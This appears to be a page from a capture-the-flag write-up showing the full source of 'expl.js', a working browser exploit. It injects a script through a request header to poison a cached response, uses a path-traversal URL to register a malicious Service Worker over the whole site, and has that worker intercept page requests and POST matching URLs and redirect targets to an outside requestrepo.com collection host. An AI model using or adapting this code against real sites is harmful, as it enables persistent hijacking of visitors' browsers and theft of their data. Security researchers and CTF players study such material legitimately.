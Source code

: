 
`expl.js` - poisoning the local cache and loading the malicious Service Worker
```js
webhook_url = "https://cc426f7n.requestrepo.com";
inj = "\"}}); INJECTION (function(){let x = {x:\"";
sw = "var document;function $(){return{ready:()=>{}}};const s=':~:',b='//cc426f7n.requestrepo.com';self.addEventListener('install',e=>{console.log('Service Worker: Installing...');e.waitUntil(self.skipWaiting())});self.addEventListener('activate',e=>{console.log('Service Worker: Activating...');e.waitUntil(self.clients.claim())});self.addEventListener('fetch',e=>{const r=e.request.url;let f=!1,t='',v='';if(r.includes(s)){f=!0;t='request_url';v=r}e.respondWith(fetch(e.request).then(n=>{const c=n.clone(),u=c.url,l=c.headers.get('Location');if(!f&&u.includes(s)){f=!0;t='response_url';v=u}if(!f&&l&&l.includes(s)){f=!0;t='location_header';v=l}if(f){try{fetch(b,{method:'POST',body:JSON.stringify({triggerReason:t,triggerValue:v,original_request_url:r})})}catch(e){console.error('SW: Failed to send beacon:',e)}}return n}).catch(e=>{console.error('SW: Fetch failed:',e);throw e}))});";
sw_header = inj.replace("INJECTION", sw);
sw_url = "/view_protected_note.js?id=../d8d34-16c0-432d-9be2-/\u2025/api/track";
headers = {
  "X-User-Ip": sw_header,
  "Sec-Fetch-Dest": "serviceworker",
  "Service-Worker": "script",
  "Cache-Control": "max-age=1800",
  "Priority": "u=4",
};

function poison() {
  console.log("poisoning");
  return fetch(sw_url, {
    mode: "same-origin",
    cache: "reload",
    headers: {
      ...headers,
    },
  });
}

function register() {
  return navigator.serviceWorker.register(sw_url, { scope: "/", type: "module", updateViaCache: "all" })
}

function update() {
  navigator.serviceWorker.getRegistration().then((reg) => {
    console.log("updating", reg);
    if (reg)
      reg.update();
  });
}

register().then(() => {
  setTimeout(() => {
    poison().then(() => {
      update()
      setTimeout(() => {
        console.log("poisoned")
        location = location.pathname+"?x=1"
      }, 2000)
    })
  }, 2000)
});
```

